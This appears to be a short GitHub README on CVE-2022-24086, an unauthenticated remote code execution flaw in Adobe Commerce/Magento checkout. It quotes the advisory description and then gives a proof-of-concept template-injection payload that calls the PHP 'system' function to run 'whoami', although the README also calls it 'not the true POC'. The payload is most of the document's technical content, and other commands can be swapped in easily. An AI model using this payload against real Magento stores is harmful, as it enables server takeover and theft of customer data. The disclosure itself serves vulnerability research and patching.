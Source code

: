 # CVE-2022-24086
CVE-2022-24086 about Magento RCE 

## Description
Adobe Commerce versions 2.4.3-p1 (and earlier) and 2.3.7-p2 (and earlier) are affected by an improper input validation vulnerability during the checkout process. Exploitation of this issue does not require user interaction and could result in arbitrary code execution.

## POC

> Notice: This Not The True POC ...

![image](https://user-images.githubusercontent.com/18260135/155713791-49aa3cfd-d1a0-4f54-8de9-5a22eb1bf93c.png)

> POC

```{{var this.getTemplateFilter().addAfterFilterCallback("system").filter("whoami")}}```
